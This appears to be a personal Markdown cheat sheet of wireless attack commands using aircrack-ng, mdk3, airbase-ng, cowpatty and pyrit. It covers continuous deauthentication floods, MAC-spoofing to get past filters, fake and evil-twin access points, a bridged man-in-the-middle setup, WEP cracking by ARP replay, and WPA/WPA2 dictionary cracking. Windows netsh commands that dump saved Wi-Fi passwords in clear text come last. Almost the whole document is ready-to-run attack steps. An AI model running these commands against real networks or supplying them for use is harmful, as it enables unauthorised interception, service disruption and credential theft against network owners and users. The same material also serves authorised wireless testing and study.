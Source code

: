 1. monitor mode is like promiscuous mode of the ethernet world where all the traffic can be monitored at a given time on the current channel.

**Powering up the wireless card**

2. ifconfig wlan0 up ---> start the wireless card 

3. airmon-ng start wlan0 <channel> ---> monitor mode interface is created on top of the device for sniffing 

**Check active Access points and the stations/clients connecting to it**
4. airodump-ng --band bn wlan0mon ---> make the card hop through different channel and check wifi traffic

5. mdk3 wlan0mon b -n baba ---> Creating a fake AP broadcasting beacons with SSID baba

**Finding Hidden SSIDs**
6. 
	a. Passive way - monitor the network for clients to connect
	b. active way - break all the connections between clients and Access point and further monitor the traffic for assocication 
	traffic.
		
	(send the deauthentication notification packet to the clients)
	aireplay-ng --deauth 0 -a <BSSID> wlan0mon -D   

	--deauth 0 will continously send deauth packets
	-D disable AP detection

7. Bypassing MAC filters

	a. aireplay-ng --fakeauth 10 -e Logan wlan0mon  --> Trying a fake authentication using the wireless card when MAC filter is 	
	off(open network)
	b. aireplay-ng --fakeauth 10 -e Logan wlan0mon -h <whiteListedMacAddress> --> To spoof a mac address and fool the AP to allow
	authentication

8. Cracking Shared/WEP encyption
	
	a. aireplay-ng --fakeauth 10 -e Logan wlan0mon -y <KeyStreamFile>

9. Creating random soft wifi interface

	a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon

10. MiTM over Wireless

	a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon -v    ---> Broadcast fake AP SSID
	b. ifconfig at0 up  ---> Power up the soft interface created
	c. 
	
		 1. brctl addbr mitm  ---> creating bridge mitm with brctl
		 2. brctl addif mitm eth0  ---> adding interfaces to the bridge
		   brctl addif mitm at0

		 3. ifconfig eth0 0.0.0.0 up
		   ifconfig at0 0.0.0.0 up

		 4. ifconfig mitm up   ---> powering up the bridge interface
		 5. dhclient mitm & ---> running dhcp client on bridge interface 	
			---> bridge the 2 interfaces (at0 with the other interface that has internet On)

**links --> https://forums.kali.org/showthread.php?17926-Fake-access-point-ettercap-sslstrip

11. Breaking WEP

	a. airodump-ng --channel 6 wlan0mon --write <fileName> --bssid <bssid>  ---> Start dumping packets on the target channel 
	b. aireplay-ng --arpreplay -e Logan -h <macAddressOfVictim> wlan0mon ---> Replay arp packets (In parallel fire this command)
	3. aircrack-ng <capFile>  ---> Start cracking with aircrack

12. Cracking WPA/WPA2 (Dictionary based attack)
	a. airodump-ng mon0 --channel 6 --essid <wifiAPName> --write <file> ---> Capture the handshake
	b. use aircrack/ cowpatty along with the dictionary
	c. aircrack -w dict <pcapCaptureFile>

13. Cracking/Decrypting with airdecap-ng/ genpmk/ cowpatty/ pyrit - faster way

	a. airdecap-ng -e <essid> -p <passPhrase> <capturedPcapFile> -b <bssid>

	Fastening up the process by pre-calculating the PMKs and then trying the Dictionary attack with the already generated PMKs

	b. genpmk -f <dictionaryFile> -s <ESSID> -d <outputFile>  ---> Preshared key or PMK list creation
	c. cowpatty -d prePmks -s "Logan" -r malWpa2-01.cap  ---> Cracking with cowpatty

	With Pyrit

	d. pyrit -r <capFile containing handShake> analyze   ---> analyze the capture pcap file and derive handshakes and APs
	e. pyrit -o <pmkFile> -i <dictionaryFile> -e <ssid> passthrough

	f1. cowpatty -d <pmkFile> -s <ssid> -r <capturedPcapFile>
			or

	f2. pyrit -r <pcapfile> -i <precoputedPMKfile> attack_cowpatty	

	With Aircrack - analyze the handshake capture file

	g. aircrack -w dict <pcapCaptureFile>	

14. Creating a WEP, WPA fakes access point/ Honeypots	

	a. airbase-ng --essid Popeye -a aa:aa:aa:aa:aa:aa -c 13 mon1 (WEP)
	b. airbase-ng -W 1 --essid Popeye -a cc:cc:cc:cc:cc:cc -c 13 mon1 -z 2  (WPA)
	c. airbase-ng -W 1 --essid Popeye -a dd:dd:dd:dd:dd:dd -c 13 mon4 -Z 4  (WPA2)

15. WPA_Supplicant

	**wpa_supplication.conf** 

	ctrl_interface=/var/run/wpa_supplicant
	ap_scan=1

	network={
	ssid="Pop"
	proto=WPA
	key_mgmt=WPA-PSK
	pairwise=CCMP TKIP
	group=CCMP TKIP WEP104 WEP40
	psk="boloTarara"
	priority=2
	}

	**command**
	wpa_supplicant  -iwlan0 -c wpa_supplicant.conf
	
16. Windows WiFi commands

	a. netsh wlan show interfaces --> view all wifi interfaces

	b. netsh wlan show drivers  --> extract current wifi driver information

	c. netsh wlan show networks --> view available networks


	d. netsh wlan show profiles  --> view profiles of the wifi network that the windows machine has connected 

	e. netsh wlan show profiles name="SSID" --> look at the configuration details of a previously connected AP

	f. netsh wlan connect name="kela" interface="Wi-Fi" --> Connect to a wifi network from cmd

	g. netsh wlan export profile name="kela"  --> Dump the profile in an external file

	h. netsh wlan show profile name="kela" key=clear  --> Dump wifi password in plain text

	i. netsh wlan set hostednetwork mode=allow ssid=Ambanis key=l@urA1234     --> Creating a hosted network on windows
    	netsh wlan start hostednetwork







